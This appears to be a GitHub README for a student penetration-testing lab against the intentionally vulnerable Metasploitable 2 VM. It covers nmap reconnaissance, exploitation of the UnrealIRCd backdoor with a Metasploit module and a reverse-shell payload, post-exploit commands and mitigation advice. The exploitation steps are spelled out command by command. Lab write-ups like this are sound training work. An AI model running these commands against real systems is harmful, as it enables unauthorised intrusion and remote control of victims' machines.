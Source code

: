 # Red Team Lab – Penetration Testing Metasploitable 2

## 1. Introduction
This project demonstrates a full penetration testing lifecycle against an intentionally vulnerable machine (Metasploitable 2) using Kali Linux as the attacker system. 

The goal was to simulate a real red team assessment by:
- Discovering open services
- Enumerating possible vulnerabilities
- Exploiting one of them to gain access
- Documenting findings as if reporting to a client

**Tools Used:**
- Kali Linux (attacker VM)
- Metasploitable 2 (target VM)
- Nmap (network scanner)
- Metasploit Framework (exploit toolkit)
- Netcat, FTP, and other Linux tools


## 2. Lab Setup

- VirtualBox was used to run two machines:
  - **Attacker**: Kali Linux
  - **Target**: Metasploitable 2

- Both machines were placed on the same **Host-Only Network** so they could communicate directly without internet.

- Verified connectivity:
  ```bash
  ping 192.168.56.102
 

## 3. Reconnaissance

First, I scanned the target to discover open ports and services.

### Full TCP Port Scan
    ```bash
    nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102

Result:

Found multiple open ports including FTP (21), SSH (22), Telnet (23), SMTP (25), HTTP (80), MySQL (3306), PostgreSQL (5432), VNC (5900), and IRC (6667) etc

These services represent possible attack entry points. 
![Nmap Scan](Screenshots/nmap_scan_results.png)

## 4. Enumeration

Next, I ran a version detection scan on the discovered ports:

    ```bash
    nmap -sV -sC -p 21,22,23,25,53,80,111,139,445,512,513,514,1099,1524,2049,2121,3306,3632,5432,5900,6000,6667,6697,8009,8180,8787,39598,40965,49997,5250 -oA nmap_enum 192.168.56.102

![Nmap Enum Scan](Screenshots/nmap_enum_results1.png)
![Nmap Enum Scan](Screenshots/nmap_enum_results2.png)
![Nmap Enum Scan](Screenshots/nmap_enum_results3.png)


## 5. Exploitation

I chose to target the **UnrealIRCd backdoor** because it is a well-known, easily exploitable vulnerability (CVE-2010-2075). This service was running on port 6667.

### Steps:
1. Launched Metasploit:
    ```bash
    msfconsole

2. selected the exploit module:
    ```bash
    exploit/unix/irc/unreal_ircd_3281_backdoor
3. Set the target host
    ```bash
    set RHOST 192.168.56.102
4. Set payload (reverse shell):
    ```bash
    set PAYLOAD cmd/unix/reverse
5. Set local host
    ```bash
    set LHOST 192.168.56.101
6. Ran the exploit
    ```bash
    exploit

Result: Successfully gained a remote shell on a Metasploitable machine
![Exploit successful](Screenshots/successfully_opened_shell_results.png)

6. Post-Exploit

After gaining shell access, I confirmed control over the target system.

    ```bash
    whoami
    name -a
    pwd
    ls -la

![Post Exploit](Screenshots/post_exploit_results.png)

## 7. Mitigation

The vulnerabilities exploited here are well-known and easily fixed:
- **UnrealIRCd Backdoor**: Use updated versions of IRC software and verify integrity of downloads.
- **vsFTPd 2.3.4**: Upgrade to a secure version without backdoor.
- **General Advice**:
  - Regularly patch and update software.
  - Disable unnecessary services.
  - Use firewalls to restrict access.
  - Monitor for unusual traffic.


## 8. Lessons Learned

From this red team exercise, I learned:
- How to set up a penetration testing lab with Kali + Metasploitable
- How to scan and enumerate services using Nmap
- How to identify vulnerable services by version numbers
- How to use Metasploit to exploit a vulnerability and gain access
- The importance of proper patch management and secure configurations

This project reflects a real-world penetration testing workflow, even though the target machine was intentionally vulnerable. It demonstrates the value of combining reconnaissance, exploitation, and reporting to simulate a professional red team engagement.
